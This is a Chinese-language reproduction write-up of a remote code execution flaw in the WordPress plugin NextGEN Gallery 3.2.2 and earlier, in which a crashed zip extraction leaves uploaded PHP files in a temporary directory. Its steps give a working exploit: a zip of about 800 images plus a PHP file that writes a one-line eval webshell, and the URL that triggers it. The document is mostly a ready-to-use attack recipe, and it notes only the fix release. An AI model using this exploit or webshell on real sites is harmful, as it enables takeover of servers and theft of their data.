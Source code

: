 WordPress Plugin - NextGEN Gallery \<= 3.2.2 RCE
================================================

一、漏洞简介
------------

WordPress插件NextGEN Gallery \<=
3.2.2版本将上传的zip压缩包解压到/wp-content/uploads目录下的临时目录，该临时目录具有显著特点：以unpacked开头。

当zip压缩文件包含大量图片时将导致处理进程崩溃，而临时目录没有删除。如果在zip压缩包中放置一个php文件，那么该php文件会被解压到临时目录造成RCE漏洞。

官方在2019年6月4日发布了3.2.4版本修复了漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 第1步：制作Zip压缩包

我制作了一个包含800张图片和1个恶意php文件（abc233.php）的zip压缩包，图片都是几KB的小图片，恶意php文件的功能是往上级目录写入webshell，abc233.php文件内容如下：

    <?php
        file_put_contents('../webshell666.php', '<?php @eval($_REQUEST["cmdx"]);?>');
    ?>

### 第2步：上传zip压缩包

点击"Add Gallery / Images"然后上传zip压缩包。

![](./.resource/WordPressPlugin-NextGENGallery<=3.2.2RCE/media/rId26.png)

### 第3步：查看临时目录

点击"import folder"，再点击"uploads"即可看到解压的临时目录。

![](./.resource/WordPressPlugin-NextGENGallery<=3.2.2RCE/media/rId28.png)

### 第4步：生成webshell

访问临时目录下的abc233.php文件即可在/wp-content/uploads目录下生成webshell。

    http://0-sec.org/wp-content/uploads/unpacked-phpA0CB.tmp/abc233.php

![](./.resource/WordPressPlugin-NextGENGallery<=3.2.2RCE/media/rId30.png)

image
